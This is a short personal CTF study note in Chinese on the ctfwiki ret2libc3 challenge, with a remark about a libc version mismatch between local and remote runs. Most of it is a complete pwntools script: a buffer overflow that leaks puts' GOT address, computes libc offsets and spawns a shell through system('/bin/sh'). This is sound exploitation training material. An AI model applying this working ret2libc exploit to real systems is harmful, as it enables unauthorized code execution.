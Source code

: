 这题在本地弄不出来，在远程上就可以。发现是用的libc不一样，本机为libc6-i386_2.21-0ubuntu4_amd64，服务器上是libc6-i386_2.23-0ubuntu11.2_amd64




# ctfwiki
## ROP
### ret2libc3

```py
from pwn import *
p = process("./ret2libc3")
elf = ELF("./ret2libc3")
p.recv()
stack = 'a'*112
puts_plt = elf.plt["puts"]
main_plt = elf.symbols["_start"]
puts_got = elf.got['puts']

payload1 = stack + p32(puts_plt) + p32(main_plt) + p32(puts_got)
p.sendline(payload1)
recv1 = u32(p.recv()[0:4])

print("puts.got_addr= ",hex(recv1))
#puts.got = cb0
#

puts_offset = 0x05fcb0
sys_offset = 0x03adb0
binsh_offset = 0x15bb0b 

libc_base = recv1 - puts_offset
sys_addr = libc_base + sys_offset
binsh = libc_base + binsh_offset

payload2 = stack + p32(sys_addr) + 'b'*4 + p32(binsh)

p.sendline(payload2)
p.interactive()
```
libc 对应的是libc6_2.23-0ubuntu11.2_i386，对此是完全没想到的...



讲的挺好的https://www.jianshu.com/p/83f55c55c173


# XCTF进阶
## 实时数据监测
